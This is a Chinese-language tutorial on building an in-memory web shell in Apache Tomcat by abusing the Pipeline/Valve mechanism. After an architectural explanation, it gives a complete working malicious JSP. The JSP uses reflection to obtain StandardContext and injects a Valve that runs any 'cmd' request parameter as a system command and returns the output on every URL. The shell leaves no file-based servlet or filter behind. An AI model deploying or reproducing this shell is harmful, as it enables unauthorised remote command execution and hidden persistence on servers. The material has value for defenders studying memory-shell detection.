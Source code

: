 # Tomcat Valve内存马

# Valve是什么？

![image](assets/image-20250621094726-ge4ciuh.png)

如图，在Tomcat中，有着Engine、Host、Context、Wrapper四大容器，

1. Engine是Tomcat的顶层容器，管理所有Host（虚拟主机），并根据请求的域名决定选择对应的Host进行处理
2. Host代表一个虚拟主机，管理若干Context，并根据请求路径决定选择对应的Context处理
3. Context对应一个应用程序，

- 管理若干资源（Servlet、Filter、JSP、静态文件等）的集合
- 每个Context之间的类加载器和配置（web.xml）是隔离的
- 管理session

4. Wapper管理单个 Servlet 的生命周期和请求处理，执行 Filter 链也是这个容器做的。

请求达到服务器后传递的顺序分别是Engine->Host->Context->Wrapper，但是传递过程并不是容器直接互相调用，而是通过每个容器内部的 管道（Pipeline） 和 阀门（Valve） 机制实现的。这种设计模式是 Tomcat 架构的核心精髓，它让请求像水流一样在容器层级间智能流动。

Valve 是可插拔的请求处理单元，每个 Valve 负责一项独立功能（如日志记录、权限检查、数据压缩等），它们就像水管上的控制阀。

# Pipeline又是什么？

前面说到，Valve是阀门，那么Pipeline就是管道，每个容器内部都有一个专属的 Pipeline，每个Pipeline里面都有一个执行顺序位于最后的基础阀门，负责将请求传递到下层容器的Pipeline，同时我们又可以在每个管道中添加自定义的阀门。

观察管道接口源码，管道支持通过addValve()方法向管道内添加自定义阀

![image](assets/image-20250621160718-3wj31cn.png)

# 与内存马结合

这套机制让我们看到了与内存马的可能性，但具体来说还是要注意以下几点：

- 该机制是Tomcat中间件的私有实现，不像ServletAPI是通用的
- 一般来说，优先级是高于Servlet/Filter/Listener和Spring的控制器/拦截器的

问题变成了，我们要如何拿到容器内的pipeline对象呢，通过阅读源码，不难发现，每个容器均支持getPipeline()方法

![image](assets/image-20250621162054-tgzy598.png)

于是，我们可以从StandardContext对象入手，构造以下恶意jsp

```jsp
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="org.apache.catalina.valves.ValveBase" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="org.apache.catalina.connector.Response" %>
<%@ page import="java.io.IOException" %>
<%@ page import="java.io.BufferedReader" %>
<%@ page import="java.io.InputStreamReader" %>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%!
public class MyValve extends ValveBase {
  @Override
  public void invoke(Request req, Response resp) throws IOException, ServletException {
    String cmd = req.getParameter("cmd");
    if (cmd != null) {
      Process proc = Runtime.getRuntime().exec(cmd);
      BufferedReader br = new BufferedReader(
              new InputStreamReader(proc.getInputStream()));
      String line;
      while ((line = br.readLine()) != null) {
        resp.getWriter().println(line);
      }
      br.close();
    }
    next.invoke(req,resp);
  }
}
%>
<%
  // 从request中获取servletContext
  ServletContext servletContext = request.getServletContext();

  // 从servletContext中获取applicationContext
  Field applicationContextField = servletContext.getClass().getDeclaredField("context");
  applicationContextField.setAccessible(true);
  ApplicationContext applicationContext = (ApplicationContext) applicationContextField.get(servletContext);
  // 从applicationContext中获取standardContext
  Field standardContextField = applicationContext.getClass().getDeclaredField("context");
  standardContextField.setAccessible(true);
  StandardContext standardContext = (StandardContext) standardContextField.get(applicationContext);
  standardContext.getPipeline().addValve(new MyValve());
  out.println("inject success");
%>
```

重启服务器并访问inject.jsp

![image](assets/image-20250621191726-luyheiv.png)

在任意地址访问?cmd=whoami

![image](assets/image-20250621191527-bqogdg7.png)

‍

‍
